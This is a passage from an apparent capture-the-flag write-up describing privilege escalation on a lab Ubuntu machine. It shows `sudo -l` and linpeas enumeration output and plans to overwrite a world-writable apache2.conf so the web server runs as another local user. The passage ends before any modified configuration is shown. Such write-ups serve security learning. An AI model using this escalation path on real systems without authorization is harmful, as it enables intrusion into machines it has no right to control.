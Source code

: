 ## privilege escalation
Checking `sudo -l` reveals that we are allowed to `start`, `stop` and `restart` the `apache2` web server with `sudo`
```bash
www-data@ubuntu:/var/www/html/console$ sudo -l   
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/systemctl start apache2
    (ALL) NOPASSWD: /bin/systemctl stop apache2
    (ALL) NOPASSWD: /bin/systemctl restart apache2
```

Using `linpeas.sh` shows that the following interesting files are world writeable.
```bash
...
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files                                                                                                                                                                
/dev/mqueue                                                                                                                                                                                                                                 
/dev/shm
/etc/apache2/apache2.conf
/run/lock
/run/lock/apache2
/tmp
/tmp/linpeas.sh
...
```

> `/etc/apache2/apache2.conf` looks juicy.
{: .prompt-info }

In the default configuration all the files the web server accesses are executed by the user `www-data`.  
That is the reason we at the moment got a remote code execution as this user. Our goal is to change this user context to elevante our privileges. 
  
> As we are allowed to overwrite the `apache2.conf` file it should be possible to change this to another user which is available on the system.
{: .prompt-info }

The following users are available
```bash
www-data@ubuntu:/etc/apache2$ ls -lsah /home
total 16K
4.0K drwxr-xr-x  4 root    root    4.0K Jun  3  2020 .
4.0K drwxr-xr-x 22 root    root    4.0K Jul  2  2020 ..
4.0K drwxr-xr-x  4 mahakal mahakal 4.0K Aug  7  2020 mahakal
4.0K drwxr-xr-x  4 natraj  natraj  4.0K Jun  3  2020 natraj
```
